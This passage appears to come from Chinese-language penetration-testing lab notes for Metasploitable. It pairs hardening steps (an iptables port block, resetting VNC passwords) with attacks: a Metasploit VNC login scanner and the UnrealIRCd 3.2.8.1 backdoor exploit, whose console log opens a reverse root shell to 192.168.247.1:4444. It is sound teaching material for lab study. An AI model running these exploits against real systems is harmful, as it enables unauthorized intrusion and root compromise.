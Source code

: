 加固：

```
封堵端口
# iptables -I INPUT -p TCP --destination-port 3632 -j DROP
```

### VNC

提供远程桌面服务

配置文件位置：~/.vnc/xstartup

密码文件：~/.vnc/passwd

mst2利用：

```
use auxiliary/scanner/vnc/vnc_login 

$ vncviewer host
```

加固：

```
修改各用户的密码
会提示是否设置一个只读界面的密码，选n
#/$ vncpasswd
```



### UnreaIRCD IRC

v3.2.8.1 存在后门，提供root shell连接

```
exploit/unix/irc/unreal_ircd_3281_backdoor UnrealIRCD 3.2.8.1 Backdoor Command Execution
```

端口：6667

利用：

```
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit 

[*] Started reverse TCP double handler on 192.168.247.1:4444 
[*] 192.168.247.250:6667 - Connected to 192.168.247.250:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
[*] 192.168.247.250:6667 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 1lgzlRUNckIyjS2i;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "1lgzlRUNckIyjS2i\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.247.1:4444 -> 192.168.247.250:50365) at 2019-03-07 14:44:39 +0800

whoami
root
```
